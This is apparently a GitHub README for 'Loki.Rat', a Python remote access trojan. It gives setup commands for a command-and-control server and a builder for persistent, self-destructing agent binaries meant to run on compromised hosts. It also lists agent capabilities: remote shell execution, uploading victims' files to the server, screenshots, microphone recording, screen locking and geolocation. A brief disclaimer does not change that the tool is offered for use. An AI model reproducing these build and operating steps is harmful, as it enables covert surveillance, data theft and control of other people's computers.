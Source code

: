 # Loki.Rat ![Loki.Rat](https://emojipedia-us.s3.amazonaws.com/thumbs/120/twitter/120/mouse-face_1f42d.png)
     
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||              (\
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||               \\
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||                ))
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||               //
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||        .-.   //  .-.
    ||||||||||||||||||||||||||||||||||||||||||||00000000000|||||||||||||||||||||||||||||||||||||||||       / 0 \-((=-/   \
    |||||||██▓        ▒█████      ██ ▄█▀    ██▓            ██▀███      ▄▄▄         ▄▄▄█████▓ |||||||       \      \\     /
    |||||||▓██▒       ▒██▒  ██▒    ██▄█▒    ▓██▒           ▓██ ▒ ██▒   ▒████▄       ▓  ██▒ ▓▒|||||||        '( ____))_ )'
    |||||||▒██░       ▒██░  ██▒   ▓███▄░    ▒██▒           ▓██ ░▄█ ▒   ▒██  ▀█▄     ▒ ▓██░ ▒░|||||||        .-'   //  '-.
    |||||||▒██░       ▒██   ██░   ▓██ █▄    ░██░           ▒██▀▀█▄     ░██▄▄▄▄██    ░ ▓██▓ ░ |||||||       /     ((      \
    |||||||░██████▒   ░ ████▓▒░   ▒██▒ █▄   ░██░    ██▓    ░██▓ ▒██▒    ▓█   ▓██▒     ▒██▒ ░ |||||||      |       *       |
    |||||||░ ▒░▓  ░   ░ ▒░▒░▒░    ▒ ▒▒ ▓▒   ░▓      ▒▓▒    ░ ▒▓ ░▒▓░    ▒▒   ▓▒█░     ▒ ░░   |||||||       \             /
    |||||||░ ░ ▒  ░     ░ ▒ ▒░    ░ ░▒ ▒░    ▒ ░    ░▒       ░▒ ░ ▒░     ▒   ▒▒ ░       ░    |||||||        \   |_w_|   /
    |||||||░ ░      ░ ░ ░ ▒     ░ ░░ ░     ▒ ░    ░        ░░   ░      ░   ▒        ░        |||||||        _)  \ ` /  (_
    |||||||░  ░       ░ ░     ░  ░       ░       ░        ░              ░  ░                |||||||      (((_ _/   \_ _)))
    |||||||░                                                                                 |||||||
    
![Loki.Rat](https://github.com/TheGeekHT/Loki.Rat/blob/master/Lokirat.jpg)
Loki.Rat is a fork of the [Ares RAT](https://github.com/sweetsoftware/Ares), it integrates new modules, like recording , lockscreen , and locate options.
Loki.Rat is a Python Remote Access Tool.

# Join our Telegram Channel [Loki.Rat](https://t.me/LokiRat)


[![How to Use Loki.Rat](https://img.youtube.com/vi/bA-N1lv57OI/0.jpg)](https://www.youtube.com/watch?v=bA-N1lv57OI)

Warning: Only use this software according to your current legislation. Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.
![Loki.Rat](https://3.bp.blogspot.com/-hCo9eJTSH5Y/WknUCULBwUI/AAAAAAAAAtY/i08DjoFqwLUsmnXhI7e5YX9AJuZmrjitQCLcBGAs/s1600/1234.png)

Loki.Rat is made of two main programs:

    A Command aNd Control server, which is a Web interface to administer the agents
    An agent program, which is run on the compromised host, and ensures communication with the CNC

The Web interface can be run on any server running Python. The agent[Payload] can be compiled to native executables using pyinstaller.
# Setup 

Install The Loki.Rat 

Open a terminal windows and type this command :
 ```
     git clone https://github.com/TheGeekHT/Loki.Rat.git
     cd Loki.Rat
 ```
 Install the Python modules requirements:
 ```
     pip install -r requirements.txt
 ```
 Initialize the database:
 ```
     cd server
    ./loki.py initdb
 ```    
 In order to compile Windows agents on Linux, setup wine (optional):
 ```
     ./wine_setup.sh
 ```
 ## Server
 
 Run with the builtin (debug) server:
 ```
     ./loki.py runserver -h 127.0.0.1 -p 8080 --threaded
 ```
 Or run using gunicorn:
 ```
     gunicorn loki:app -b 127.0.0.1:8080 --threads 20
 ```
 The server should now be accessible on http://127.0.0.1:8080
 
 ## Payload
 Run the Python payload (update config.py to suit your needs):
 ```
     cd payload
     ./payload.py
 ```
 Build a new payload to a standalone binary:
 ```
     ./builder.py -p Linux --server http://localhost:8080 -o payload
     ./payload
 ```
 To see a list of supported options, run ./builder.py -h
 ```
     ./payload/builder.py -h
     usage: builder.py [-h] -p PLATFORM --server SERVER -o OUTPUT
                    [--hello-interval HELLO_INTERVAL] [--idle_time IDLE_TIME]
                    [--max_failed_connections MAX_FAILED_CONNECTIONS]
                    [--persistent]

     Builds an Loki.Rat payload

     optional arguments:
     -h, --help            show this help message and exit
     -p PLATFORM, --platform PLATFORM
                         Target platform (Windows, Linux).
     --server SERVER       Address of the CnC server (e.g http://127.0.0.1:8080).
     -o OUTPUT, --output OUTPUT
                         Output file name.
     --hello-interval HELLO_INTERVAL
                        Delay (in seconds) between each request to the CnC.
     --idle_time IDLE_TIME
                         Inactivity time (in seconds) after which to go idle.
                         In idle mode, the agent pulls commands less often
                         (every <hello_interval> seconds).
     --max_failed_connections MAX_FAILED_CONNECTIONS
                         The agent will self destruct if no contact with the
                         CnC can be made <max_failed_connections> times in a
                         row.
     --persistent          Automatically install the agent on first run.
```
![Loki.Rat](https://4.bp.blogspot.com/-tbXl_inoyLc/WknUCUBGPPI/AAAAAAAAAtQ/upyR69qd7mguVq9HtgXx0cCbYZ3z5jcugCLcBGAs/s1600/12345.png)
Supported payload commands
```
     <any shell command>
     Executes the command in a shell and return its output.

     upload <local_file>
     Uploads <local_file> to server.

     download <url> <destination>
     Downloads a file through HTTP(S).

     zip <archive_name> <folder>
     Creates a zip archive of the folder.

     screenshot
     Takes a screenshot.

     python <command|file>
     Runs a Python command or local file.

     persist
     Installs the agent.

     clean
     Uninstalls the agent.

     exit
     Kills the agent.
     
     record
          -h, --help            show this help message and exit
          -t RECORD_SECONDS, --time RECORD_SECONDS
                                Set a timing in seconds for record. (e.g 10)
          -c CHANNELS, --channel CHANNELS
                                Channel for the microphone (e.g 2).
          -ch CHUNK, --chunk CHUNK
                                Chunk for the microphone (e.g 1024).
          -r RATE, --rate RATE  Rate (e.g 44100).
          
     lockscreen
     lock screen only on windows and Linux with Gnome environnement
     
     Geolocalisation
     locate the target machine , and print the Latitude and Longitude
          
     help
     This help.
```
![Loki.Rat](https://1.bp.blogspot.com/-WSolWnb_MPY/WknUCQKM9nI/AAAAAAAAAtU/1e7U7xDvT0ECJ-EDbxTCXbpM1kk9kr1WwCLcBGAs/s1600/123.png)
 # <> with :heart: in HAITI 🇭🇹 

